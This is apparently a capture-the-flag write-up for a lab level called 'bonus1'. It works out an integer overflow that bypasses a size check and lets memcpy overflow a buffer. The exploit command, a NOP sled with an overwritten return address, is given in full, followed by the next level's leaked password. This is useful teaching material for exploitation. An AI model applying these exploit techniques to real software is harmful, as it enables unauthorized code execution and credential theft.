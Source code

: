 # Bonus 1
*password : cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9*

```
$ scp -P 4242 bonus1@192.168.56.108:bonus1 binary/
```

## Buffer overflow
```
char *dest[40];
...
memcpy(dest,*(undefined4 *)(**av + 8),nb * 4);
```

- nb must be < 10
- (unsigned int)(nb * 4) must be = 60 because offset = 56 (nb => 8 + nb * 4 => 8 + 40)
unsigned int MAX = 4294967296

x * 4 => 0 en int
(int)-4294967296 = 0
(int)(-1073741824 * 4) = 0
(int)(-(1073741824 - x / 4)* 4) = x

(int)(-(1073741824 - 15)* 4) = 60
(int)(-(1073741809 * 4) = 60

donc x  = -1073741809

```
$ tmp/a.out
0xbffff83f
$ ./bonus1 -1073741809 $(python -c 'print "\x90" * 56 + "\x3f\xf8\xff\xbf"')
$ cat /home/user/bonus2/.pass
579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245
```
